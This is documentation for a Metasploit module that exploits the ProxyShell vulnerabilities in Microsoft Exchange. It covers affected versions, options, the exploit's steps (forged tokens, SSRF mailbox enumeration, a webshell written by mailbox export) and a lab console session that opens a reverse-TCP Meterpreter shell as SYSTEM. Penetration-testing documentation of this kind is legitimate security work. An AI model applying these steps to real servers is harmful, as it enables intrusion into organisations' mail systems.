 ## Vulnerable Application

This module exploits a vulnerability on Microsoft Exchange Server that allows an attacker to bypass the authentication
(CVE-2021-31207), impersonate an arbitrary user (CVE-2021-34523) and write an arbitrary file (CVE-2021-34473) to achieve
the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.15
  * Exchange 2016 CU19 < 15.1.2176.12
  * Exchange 2016 CU20 < 15.1.2242.8
  * Exchange 2019 CU8 < 15.2.792.13
  * Exchange 2019 CU9 < 15.2.858.10

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: April 13, 2021 (KB5001779)][1]*

### Exploit Internals

At a high level, the steps the exploit takes are as follows:

1. Build a Common Access Token corresponding to a user with the "Mailbox Import Export" role
    1. If an email address is specified using the `EMAIL` datastore option, the exploit will attempt to use the owner
    1. If no email address is specified
        1. The exploit will leverage the SSRF to issue a reques to EWS and enumerate the email addresses
            * This technique was taken from [dmassland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc/blob/main/proxyshell-enumerate.py)
        1. The module will store the enumerated email addresses in a CSV file
        1. Each of the email addresses will be checked for the necessary role
    1. A common access token will be built using the verified user's SID
        * Email addresses are mapped to SIDs using a request to autodiscover and MAPI
1. A draft email is saved to the identified user's mailbox containing an encoded webshell embedded within an attachment
1. The `New-MailboxExportRequest` cmdlet is used to export the attachment and write the webshell to an accessible location
1. The exploit waits for the webshell to be written and uses it to execute OS commands
1. The webshell*, export request and draft email are all removed
    * *The webshell can only be remove automatically if the selected payload establishes a sessions (such as Meterpreter)


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/http/exchange_proxyshell_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `run`

## Options

### EMAIL

A known email address for this organization. If specified, the user who owns the mailbox must either have the "Mailbox
Import Export" role already or have the necessary permissions to assign it to themselves. This would typically be some
sort of an administrative user. If this option is left blank, the module will enumerate all valid email addresses and
check each one for the necessary privileges.

### UseAlternatePath

Use the IIS root dir as alternate path. Default: `false`

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: `C:\Program Files\Microsoft\Exchange Server\V15`

### ExchangeWritePath

The path where you want to write the backdoor. Default: `owa\auth`

You can for example, set it to: `ecp\auth`

### IISBasePath

The base path where IIS wwwroot directory is. Default: `C:\inetpub\wwwroot`

### IISWritePath

The path where you want to write the backdoor. Default: `aspnet_client`

### MapiClientApp

This is MAPI client version sent in the request.

## Scenarios

### Exchange 2016 CU 19 on Server 2016

```
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(windows/http/exchange_proxyshell_rce) > check
[+] 192.168.159.42:443 - The target is vulnerable.
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-bpid95acq7e.exchg.lan
[*] Enumerating valid email addresses and searching for one that either has the 'Mailbox Import Export' role or can self-assign it
[*] Enumerated 2 email addresses
[*] Saved mailbox and email address data to: /home/smcintyre/.msf4/loot/20210827174927_default_192.168.159.42_ad.exchange.mail_205456.txt
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2800676829-2777257591-1686523126-1000 (smcintyre@exchg.lan)
[*] Saving a draft email with subject 'ie1Y1uNnLfxL' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200262 bytes) to 192.168.159.42
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.42:7149) at 2021-08-27 17:49:40 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter >
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-april-13-2021-kb5001779-8e08f3b3-fc7b-466c-bbb7-5d5aa16ef064
